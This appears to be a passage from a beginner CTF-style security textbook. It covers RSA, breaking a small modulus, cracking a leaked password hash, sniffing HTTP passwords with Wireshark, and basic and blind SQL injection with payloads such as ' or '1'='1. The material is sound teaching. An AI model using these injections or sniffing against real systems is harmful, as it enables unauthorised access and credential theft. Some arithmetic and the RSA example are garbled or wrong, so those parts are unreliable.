639792933441952154134189948544473456738316249934191318148092777710386387734317720754565453220777092120190516609628049092636019759882816133231666365286193266863360627356763035447762803504507772355471058595487027908143562401451718062464362679456127531813407833033625423278394497538243720583531147711992606381334677687969597030983391307710987040859133746414428227726346594704745878477872019277152807317679077071572134447306057007334924369311383504931631284042512192565179806941135280131470130478164378851852909285452011658393419656213491434159562586586557055269049652098580338507224264829397285847831630577775606888764Certainly a very big number. However, to understand how it works it is a good idea to use small numbers. Let’s look at an example:
Public key (e,n) → (11,117)
Private key (d,n) → (35,117)
Message m –> 10
So far, we have a private key which has an e=11, and a public key with a d=35. Our message is 10. To encrypt 10, we do:
1011 mod 117
The result of that is 82. So we have:
1011 mod 117 = 82
Ciphertext → 82
Now, for decrypting, we do:
8235 mod 117 = 10
Cleartext → 82
That was a bit magical. The RSA private and public key are generated with some steps that makes them have this property. The process of key generation is relatively simple. We only need to understand some parts of it to show our attack. Note that "In number theory, two integers a and b are said to be relatively prime, mutually prime, or coprime (also written co-prime) if the only positive integer (factor) that divides both of them is 1. Consequently, any prime number that divides one does not divide the other. This is equivalent to their greatest common divisor (gcd) being 1"[1]. The multiplicative inverse, is a number that we use to multiply another number, and obtain 1 as a result. For example, in non integer arithmetic (in RSA we only use integer arithmetic) the multiplicative inverse of 8, is 1/8, Because 8 * 1/8=1. However in integer arithmetic we don’t have fractions. But we can have a multiplicative inverse modulo n, which means that if we have a number, multiply it by its multiplicative inverse, and take modulo n, the result will be 1.
For example, the multiplicative inverse in 3 modulo 4, is 3, Why? Because if you multiply 3*3, that results in 9, and 9 modulo 4, is 1. Now you are ready to see the key generation without getting lost. This is it:
-
Generate two large co-prime numbers, p and q.
-
Find n = pq and phi = (p-1) (q-1)
-
Select e such that 1 < e < phi, and e is coprime of phi
-
Find d, which is the multiplicative inverse of e modulo phi.
-
The couple (e, n) is the public key
-
The couple (d, n) is the private key
It is relatively simple! To find a multiplicative inverse, you can use the Extended Euclidean Algorithm (EEA). In google it is easy to find an online implementation of it. Remember our example in which we had these key pair?
Public key (e,n) → (11,117)
Private key (d,n) → (35,117)
That was generated in exactly the same manner. First we picked two coprime numbers. The number of our choice were:
p=13
q=9
They are coprime, because their greatest common divisor is 1. Then
n=13*9=117
phi=(13-1)(9-1)=96
To pick e, we arbitrarily pick a number that is greater than 1 and less than phi, and it is coprime with phi. The number 11 complies with those requirements. So
e=11
Now, to obtain 'd' applying the EEA. We can do that on this web site:
So we input 11 and 96 in the following manner:

And the result we want is 35. So we have that
d=35
With those results, we know that are private and public keys are:
Public key (e,n) → (11,117)
Private key (d,n) → (35,117)
Excercise: Create your own public and private key, and use it to encrypt and decrypt a two digit number!
Attacking RSA
RSA can be easily broken if it has a small 'n'. This does not happen often in real life, unless a programmer decides to implement its own version of RSA. A programmer should not make its own implementations of cryptography, it is a general rule to use libraries tested by industry. The security of RSA is based on the fact that there is not an efficient algorithm to factorize a large 'n', so an attacker is not able to generate the private key from the public key. In case 'n' is too small, it is possible to factorize it.
We are going to see how to break RSA by recovering the private key from the public. In real life, the public key comes in a digital certificate, which is a package that contains data related to the owner of the public key along with the public key itself. Digital certificates are often encoded in base64, which is a way of encoding a binary as a printable text. The following is an example of a digital certificate encoded in base64:
-----BEGIN CERTIFICATE-----
MIIB6zCB1AICMDkwDQYJKoZIhvcNAQECBQAwEjEQMA4GA1UEAxMHUGljb0NURjAe
Fw0xOTA3MDgwNzIxMThaFw0xOTA2MjYxNzM0MzhaMGcxEDAOBgNVBAsTB1BpY29D
VEYxEDAOBgNVBAoTB1BpY29DVEYxEDAOBgNVBAcTB1BpY29DVEYxEDAOBgNVBAgT
B1BpY29DVEYxCzAJBgNVBAYTAlVTMRAwDgYDVQQDEwdQaWNvQ1RGMCIwDQYJKoZI
hvcNAQEBBQADEQAwDgIHEaTUUhKxfwIDAQABMA0GCSqGSIb3DQEBAgUAA4IBAQAH
al1hMsGeBb3rd/Oq+7uDguueopOvDC864hrpdGubgtjv/hrIsph7FtxM2B4rkkyA
eIV708y31HIplCLruxFdspqvfGvLsCynkYfsY70i6I/dOA6l4Qq/NdmkPDx7edqO
T/zK4jhnRafebqJucXFH8Ak+G6ASNRWhKfFZJTWj5CoyTMIutLU9lDiTXng3rDU1
BhXg04ei1jvAf0UrtpeOA6jUyeCLaKDFRbrOm35xI79r28yO8ng1UAzTRclvkORt
b8LMxw7e+vdIntBGqf7T25PLn/MycGPPvNXyIsTzvvY/MXXJHnAqpI5DlqwzbRHz
q16/S1WLvzg4PsElmv1f
-----END CERTIFICATE-----Copy that text into a text file on the shell server, and name it "weak_n_certificate". The first thing we have to do to crack RSA with a weak n, is to extract the n from the certificate. Remember that n is the modulus and e is the exponent. You can use the following command to extract those values:
openssl x509 -in weak_n_certificate -text -nooutIn this case,
n= 4966306421059967
e= 65537
As we can see in the output of the command:
Certificate:
Data:
Version: 1 (0x0)
Serial Number: 12345 (0x3039)
Signature Algorithm: md2WithRSAEncryption
Issuer: CN = PicoCTF
Validity
Not Before: Jul 8 07:21:18 2019 GMT
Not After : Jun 26 17:34:38 2019 GMT
Subject: OU = PicoCTF, O = PicoCTF, L = PicoCTF, ST = PicoCTF, C = US, CN = PicoCTF
Subject Public Key Info:
Public Key Algorithm: rsaEncryption
RSA Public-Key: (53 bit)
Modulus: 4966306421059967 (0x11a4d45212b17f)
Exponent: 65537 (0x10001)
Signature Algorithm: md2WithRSAEncryption
07:6a:5d:61:32:c1:9e:05:bd:eb:77:f3:aa:fb:bb:83:82:eb:
9e:a2:93:af:0c:2f:3a:e2:1a:e9:74:6b:9b:82:d8:ef:fe:1a:
c8:b2:98:7b:16:dc:4c:d8:1e:2b:92:4c:80:78:85:7b:d3:cc:
b7:d4:72:29:94:22:eb:bb:11:5d:b2:9a:af:7c:6b:cb:b0:2c:
a7:91:87:ec:63:bd:22:e8:8f:dd:38:0e:a5:e1:0a:bf:35:d9:
a4:3c:3c:7b:79:da:8e:4f:fc:ca:e2:38:67:45:a7:de:6e:a2:
6e:71:71:47:f0:09:3e:1b:a0:12:35:15:a1:29:f1:59:25:35:
a3:e4:2a:32:4c:c2:2e:b4:b5:3d:94:38:93:5e:78:37:ac:35:
35:06:15:e0:d3:87:a2:d6:3b:c0:7f:45:2b:b6:97:8e:03:a8:
d4:c9:e0:8b:68:a0:c5:45:ba:ce:9b:7e:71:23:bf:6b:db:cc:
8e:f2:78:35:50:0c:d3:45:c9:6f:90:e4:6d:6f:c2:cc:c7:0e:
de:fa:f7:48:9e:d0:46:a9:fe:d3:db:93:cb:9f:f3:32:70:63:
cf:bc:d5:f2:22:c4:f3:be:f6:3f:31:75:c9:1e:70:2a:a4:8e:
43:96:ac:33:6d:11:f3:ab:5e:bf:4b:55:8b:bf:38:38:3e:c1:
25:9a:fd:5fFactorize that n is pretty easy. If you google "integer factorization online", the first result is this one:
Input the value of n in the text field on that website, and click the button factor. You will get the following:

That is correct, 67867967 and 73176001 happen to be 'p' and 'q' in the RSA public key. Having those to values, you are be able to calculate the private key.
Challenge: what is the private key?
5.4.3. Hashing
Imagine you want to download a big file from the internet. However, after downloading, you want to check that every bit of the file is correct, and nothing was changed because of a transmission error or a malicious attacker. To do this, you can use a hash, which is a value that you get after applying a hash function to the file, and you obtain a string of fixed length that identifies that file. Whenever you apply the hash function to the file, you will get exactly the same hash, unless the file has been modify. If one bit of the file was changed, you would get a very different hash. So, using a hash we can check the integrity.
There are several hash functions used in industry that are considered secure. One that is commonly used, is SHA2, which means "Secure Hashing Algorithm 2", because it is the second version of SHA. Let’s look at an example. Open the shell server and create a file called "bio.txt" and copy paste the following content (do not include the quotes and make sure there is not break line at the end or beginning):
"Charles Babbage KH FRS (26 December 1791 – 18 October 1871) was an English polymath. A mathematician, philosopher, inventor and mechanical engineer, Babbage originated the concept of a digital programmable computer."
Save it, and run the command "sha256sum" like this:
sha256sum bio.txtAs a result, you should get a hex string of 64 characters. In this particular text, you should get:
338f1cefc564f86ecfc241310d35e31125bb14cff61c080f293be2ef24fb3a69That string is an identification for the information contained in our file. If we make just a little change to the file, it will change completely. For example, create a new file called "bio2.txt" with the same data, but now without the dot at the end:
"Charles Babbage KH FRS (26 December 1791 – 18 October 1871) was an English polymath. A mathematician, philosopher, inventor and mechanical engineer, Babbage originated the concept of a digital programmable computer"
Save it, and run the command "sha256sum" like this:
sha256sum bio2.txt
You should get:
3e7e604c81440507f6140becfed1c3510bc49cc4745c938166b9979245215618
Note that the hash is very different just because we removed one single dot. Now, add the dot back at the end in the file bio2.txt, and run "sha256sum" on that file. You should get the original hash that we got from "bio.txt", because the information contained in the file is exactly the same.
So, if we store a file, calculate the hash, and keep the hash with us, we could know if the file was modified by recalculating the hash and verifying that it matches with the hash we had. This is a very useful integrity measure. One caveat, is that an attacker should not have access to the place in which the hash is stored, because in that case, the attacker would be able to modify the file, recalculate the hash, and replaced the stored hash, so we would not be able to tell that the file was modified.
Hashes, are commonly used to store passwords in a database. When a user logs in, the hash of the password is calculated and it is compared with the hash stored. If they match, we know that the user input the correct password. Note that a fundamental property of hashes is that it is impossible to get the original text from the hash. Because of that, a system administrator would not be able to learn the actual password of users if they have access to the database. In the case of a data breach, when a database is leaked, attackers would not be able to obtain the real password of users.
How can a hash be attacked? In the case of passwords, an attacker can create a table that maps several passwords to their hash by calculating the hash of several words, for example all the words in an english dictionary. In that way, if the attacker finds a hash of the password in the database, and the password was a word present in an english dictionary, it could be possible to map it back to the original password by looking for it in the table. However, if a user picked a secure password, this attack would not work because that secure password with complexity, would not be ina dictionary. Note there are lists of commonly used passwords which contain words in several languages and modifications of them, for example, "Hello_12345". A secure password should be random characters to prevent this attack.
Challenge: The following hash of a password was leaked from a database, and you know the user did not use a strong password.
e7ae6cfee91a324590df7b048dcc9802b7389c1b0d996d474d61c4cbb1253455
Search on google the list of passwords called "rockyou", and generate the hash to find the password that corresponds to the leaked hash!
Hint: you can use python to generate hashes. The hashing algorithm is SHA2.
6. 6 The Network
A network is made up of several computers connected. They can be connected through different protocols. A Protocol is a set of rules that allow two computers in a network to send and receive information. That set of rules is essential to understand what information is coming from what source, or how to send information to a particular computer in the network. To sniff traffic in a network, we will be using a tool called Wireshark, which can show the packets transmitted on a network and we can get passwords from insecure connections. But first, we will briefly explain some important things so you roughly understand the composition of a packet and can extract the parts you need.
6.1. Network Layers
The networks we commonly used today, are broken down into different layers. This design by layers assigns responsibilities to each layer to accomplish something. It is good to have a design by layers for several reasons. For example, if network engineers want to make a change in one of the layers, the impact on the other layers is minimized. Another example, is that if you are a programmer and want to connect your application with a server, you do not necessarily need to care if the user is using wifi or ethernet cable, or how the user is connection to the internet. Your application can simply trust other layers are going to take care of that and your application will have a successful connection. These are the layers, viewed in a top down approach.
-
Application layer: Responsible for handling data traffic between applications. HTTP belongs to this layer, HTTP protocol is commonly used to obtain Web Pages.
-
Transport layer: Responsible for providing several connections on the same host, that means that you can have several applications on the same device and each of them can have a different connection even if it is just one device. It also defines functionalities for reliable transport. Two protocols are used on this layer. TCP (Transport Control Protocol). You use this protocol when you need to have reliable transport, this makes sure that if a piece of information was missing while being transfer, is resent again. HTTP from the Application layer, runs on top of TCP, because when you visit a Web Page you want to have every part of it accurately. On the other hand, when you don’t need reliable transport, but you want faster transport that does not resend parts that were missing, UDP (User Datagram Protocol) is used. An example when UDP is needed is for voice communication. When you are talking if a little part of the audio is missing, you do not want it to appear later in the communication because that would confuse the listener. It is preferred that is simply lost, and the listener can still understand what you are saying if that little part missing is small enough. Since UDP has no controls for transport, it is faster than TCP. This layer assigns a port to each connection, and that is how it tells the difference between connections in the same computer, because of the port.
-
Network layer: It provides devices with an address in the network called the IP (Internet Protocol) address, and routes information through different routers. It provides mapping between all the computers connected to the internet. When you connect to a network in some specific place, an IP is assigned to your device.
-
Data link layer: It provides communication between devices that are connected directly. Examples of protocols in the data link layer are Ethernet or WiFi. You generally use WiFi to send messages to your router directly without any other devices in between. Each device has a physical address in wifi or ethernet, known as the mac address. The mac address is used for this layer. This is not an address like the IP that can change depending on the network you are connected to. The mac address is assigned to the hardware of your network card when it is manufactured.
-
Physical layer: This handles electrical pulses on the wire that represent bits.
When you access a browser and visit a web site , the information of the web site is downloaded in packets. Today’s Internet is pretty fast, and you might feel that the website appears all at once. But if you download a big file, you can see that it takes some time. This happens because the file is broken down into packets that are received in your computer, and begin to accumulate, until they are all received and conform the whole file when the download is completed. Each packet contains a piece corresponding to each layer.
6.2. Sniffing and attack example
In a tool called wireshark, we can “sniff” the packets transmitted on a network. The technical term that is used to refer to a tool like wireshark it is actually “sniffer”.
On your computer, Download wireshark from their site:
You have to download the version corresponding to your operating system. It should be a very easy process, however, if you have any issue or doubt, at Google there is plenty of good documentation about Wireshark.
Once you install it, open it and you should see a window similar to this:

That is the list of devices you can sniff. In this case, we want to sniff the network card you are using to connect to the internet. If you are connected to a WiFi, you should select the one that is called “WiFi”. In case you are connected to the Internet using Ethernet cable, you should select “Ethernet”. Then, click the “start capture” button on the upper left side which is circled in the following image:

The capture now starts. If you have applications running on your computer or have website open in your browser, you will probably see several packets immediately, leave that Wireshark window running the packet sniffing. In your browser, navigate to the following link:
You should see the following page:

Now come back to the Wireshark window. What we want to do now is finding the packets that were sent and received in your computer when you accessed the link. If there are too many packets from all the connections on your computer, that would be hard task without the help of a wireshark filter. A wireshark filter allows you to tell wire shark that you only want to see some specific packets. You can filter by protocol, a particular ip, string on your request, or anything you need that helps you find what you are looking for faster. When we accessed the link on the browser, we did an HTTP request. We can filter http request, by simply typing http on the filter textfield and pressing enter. The following image shows the results and we circled in red the textfield in which you have to type:

Right below the textfield in which you typed it is the packet list. We can see two packets. The first one is the request your browser sent to the server asking for the web page, so naturally it has your IP as the source, and the IP of the server as the destination. The second packet is the reply, which now has your IP as the destination and the IP of the server as the source because now the server is the one that is sending the page to you after you request it.
In the lower part of the window, we can see the information related to all the layers we explained previously of the currently selected packet. Now, we will send a user and password to the web site. This page in particular does not do anything after you send a password, it is just receive it and does nothing, but the important thing is to note that we can see the password on wireshark when we send it. In the web page, type the following in user and password respectively:
picouser
picopassword
In Wireshark, you should see now two more packets, one in which you send the user and password, and the reply of the server. Note that the reply of the server is the same page, as we said this page does nothing. So far we have 4 packets, and the third one is the one in which you send the user and password!
Click the third packet, and in the lower part of the window where are show the layers, click “Hypertext Transfer Protocol”. Note that at the end we can see &password=picopassword

So we just found the password we sent using sniffing. A fundamental thing to note, is that we were able to do that because the website was using HTTP, instead of HTTPS which is encrypted. Encryption prevents us from understanding the contents of a packet.
Additionally, we are always able the network card of our own computer. However, if we want to sniff packets from other devices connected to the same wifi, we have to do additional things because WiFi could be using encryption. We encourage you to use a second device, it can be a smartphone, to access the web page and send a password. Then in your computer use Wireshark to capture the password sent, but first you need to do two things:
Enable monitor mode in Wireshark: Stop any packet capture you are doing and open the capture dialog, which is located in the upper part of the window and click “options”Choose Wifi Interface and check “monitor” as in the following image:

| When the monitor mode is enabled and you are capturing packets, you would not be able to navigate the Internet on your computer. To be able to navigate again, disable monitor mode by unchecking the checkbox. |
Decrypt WiFi Decrypt WiFi connection: You can do this only if you have the password for the WiFi you are sniffing. In the following link:
There is a very good article that explains how to do it. Note that Wifi Encryption is encryption of the datalink layer, which is different to the encryption provided by HTTPS which is in the application layer. So even if you decrypt the WiFi connection, if a website it is still using HTTPS, you will not be able to see anything from that website on Wireshark.
7. Infiltrating in a database
7.1. SQL
SQL is used to create and manipulate a very common type of databases called relational databases. SQL stands for Structured Query Language. With it you can create tables in a database, store data on them, and run different queries that let you extract and analyze data. We are going to see some examples in a relational database management system (RDBMS) called MySQL. Once you learn the basics of SQL in any RDBMS, it is easy to apply them in others. We are going to see a very quick introduction so you are able to understand the hacks. Let’s begin.
As we said, information is stored in tables. The following is an example of a table that we might call "user":
| Id | Name | Last Name | Phone | Password |
|---|---|---|---|---|
1 |
Jane |
Doe |
200 111 1111 |
123456 |
2 |
Arpit |
Gupta |
200 111 1111 |
hello |
3 |
Melania |
Clinton |
201 333 3333 |
password |
| The passwords in this table are just an example. In real life, you should never store the password directly in the database, as you will learn in the crypto section. Additionally, you should never use a password like those, they are too weak. |
There are several online tools that you can easily find on Google to learn languages. For example, access the following web site:
We can execute MySQL statements online. So, let’s create our table from the previous example on it. First, delete the code present in the editor. You should be seeing something like this:

Now, you can create the table using the following statement:
create table user (id integer, name text, lastname text, phone text, password text);
Analyze the statement carefully. This statement creates a table called "user" with three columns. The first column is "id", and has the data type int, which means integer. The other columns are "name", "lastname", and "phone", which are of datatype text. In datatype integer, as you might guess, you can only store integers. In a datatype text, you can store strings. Put that statement in the SQL editor and hit the button "Run". If it was successful, you will see a green bar on top of the editor with the label "success". When you create tables in SQL, they are stored and become available to insert future data on them. However, in this online editor tables just survive in a single run, so in the same script we will have to create the table, insert the data, and query the data.
So far we have created the table but it is empty. To insert a row, add the following statement:
insert into user (id, name, lastname, phone, password) values (1, 'Jane', 'Doe', '200 111 1111', '123456');
As you can see, the statement is self explanatory. It will insert each of those values in each column of user conforming a new row. Hit run, and verify it was successful. It should look like this:

Now, add the following line that will query the data you have inserted so far:
Select * from user;
The * means that you want to see the content of all the columns. Hit Run.

You can see the results at the end. Now insert the two rows missing to conform our 3 row table:

If you are interested in returning only some particular columns, you can list them instead of using the *. For example, let’s return only the name and lastname:
select name, lastname from user;
You will see:

We can make our query more granular if we add a "where" clause like this:
select * from user where id=2;
Look at the query carefully. We already know that the * means we want to see the content of every column. In the ‘where' clause we restrict which rows we want to return. What row do you think is going to return that query?
If you thought about this row:
2 |
Arpit |
Gupta |
200 111 1111 |
hello |
You were right. That is because that row is the one with the value of 2 in its id. You could filter by any other field. If you are filtering a field of type text, you have to put the value enclosed single quotes. Remove the previous select statement, and add:
select * from user where phone='200 111 1111' ;
You should be seeing the following:

Run it. If you look at the rows inserted. ‘Jone Doe' had the same phone number as ‘Arpit Gupta'. The select statement should return 2 rows like this:

We can also filter by two fields in the same query using the logical operators ‘and' in the following manner:
select * from user where phone='200 111 1111' and name='Jane';
After the "where" clause, you can put several boolean expressions. As you learned previously in the programming chapter, when you use "and" it means that both expressions have to be true so the expression is true. The query should return this:

Now, add another ‘and' operator, to try to filter using a name that does not exist in the table:
select * from user where phone='200 111 1111' and name='Jane' and name='Mario';
The query should return no results, because ‘Mario' does not exist in our database:

Now, as an experiment add another filter, but this time use "or" instead of "and". For example, run:
select * from user where phone='200 111 1111' and name='Mario' or name='Arpit';
You will see:

What happened here? Analyze the query carefully. You know there is no one called Mario in our table. Why in the world the query return a row? If you think about it, any expression, no matter how long it is, if results in False, but then you do "or" with something that is true, it will be true. For example:
1=2 and 3=2 and 47=1 or 1=1
Will be true, because (1=2 and 3=5 and 45=1) is false, but (1=1) is true. This is fundamental for the basic SQL injection attack.
Try the following:
select * from user where phone='200 111 1111' and name='Mario' or 1=1;

You just returned all the results! That happens, as you might guess, because "1=1" is always true. As an exercise, create a new table with new data and create new queries.
7.2. Basic SQL injection
The objective of the basic SQL injection we are learning, is trying to inject an "or" expression that is always true. In that way the server code constructs a query using the user input that deceives the program into it returning the whole table. That happens, when a program is concatenating string to construct a query in the server code. The following is an example in PHP:
"SELECT * FROM user where name='".$name.""' and password='".$password.""';"
The red part of the query, will be concatenated with the value of the variables to conform the final query. Let’s suppose that $name is equal to "samuel", and $password is equal to "hello", the query would result in
SELECT * FROM user where name='samuel' and password='hello';
What would happen if the password contains a single quote? That might break the syntax of the SQL query. Even worse, it could be used to inject your own sql. For example, if the value of $password is:
' or '1'='1
The resultant query would be:
SELECT * FROM user where name='samuel' and password='' or '1'='1';
Which is a perfectly valid query that will return the whole table. Use what you just learn here to return all the users:
This kind of vulnerability it is rarely present in applications. One that is more common, is the blind sql injection.
7.3. Blind SQL injection
In this kind of vulnerability, the application does not return all the data to you. However, it is enough that the application shows an error message saying that no data was found or that an error has occurred, to figure out the content we are looking for.
To illustrate this, we are going to attack the following page:
If we input our previous injection in the password field:
' or '1'='1
We will see that the application found something and shows the message "REGISTER FOUND":

Internally, the injection deceives the application into returning records, but the application did not show us those records. That’s why it is called Blind SQL injection. We are able to inject SQL, but we cannot see the result!
What we can do about this? We are going to try to inject a SQL to guess one character of a field at a time. Suppose we want to guess the first character of the password. If we don’t guess it, the application will return "NOTHING FOUND". If we guess it, it will return "REGISTER FOUND".
Note that is fundamental to be able to guess only one character at a time. Trying to guess a whole string at the same time, is much harder. Suppose a word is made up by a combination of the 26 characters of the alphabet. To guess only the first letter, we only have to try 26 values. However, if we try to guess the whole word, is much more complicated. To illustrate this, suppose we have a word of two letters. If we can guess one at a time, we would need at most 26 trials for the first one, and 26 trials for the second one, for a total of 52 trials. On the other hand, if we try to guess both letters at a time, we would need 26*26 trials, which is 626 trials, because they can have different combinations. If we add more characters, guessing the whole word becomes much harder because it would emerge too many possible words. Nonetheless, guessing one letter at a time, will keep being only 26 trials for each letter. The blind SQL injection is based on that fact, it will try to inject a query that only compares one character at a time.
To be able to do that, you need to know the name of the column you are trying to guess. This happens to be not that hard, because in many cases you can infer the name of the database column based on the name of the html input. In other cases you can leak the name if an error occurs inside the application, and in the error message the application shows the value of the columns.
For the page we are attacking in this example the names are the same as the html input. One column is called ‘name', and the other one is called ‘password'.
So far, you know that if you inject:
' or '1'='1
It will return results, but you are not learning any information. We know two column names, ‘username' and password. For this example, suppose you know a user called "picoctf". So you will try to get the password from that user. To narrow down the query to the row in which is stored the user picoctf information, you could use
' or username='picoctf
Note that we do not use the '1'='1 any more because we want a statement that will filter only one user. If you inject that on the password field from the web page, you will still see:

Remember that in our injection, if the part at the right of the "or" is true, it will return results. It is true that username is equal to ‘picoctf' only in the row on the picoctf!
Now we will add the part that compares the first character of the password. We can do that using an embedded query. An embedded query is a query inside a query. Our embedded query highlighted in red, will simply return the first character of the password. We will compare that first character with the character ‘a', so we are guessing that the first character is ‘a':
' or username='picoctf' and (select substr(password, 1, 1))='a
If you inject that, you will see that nothing was found:
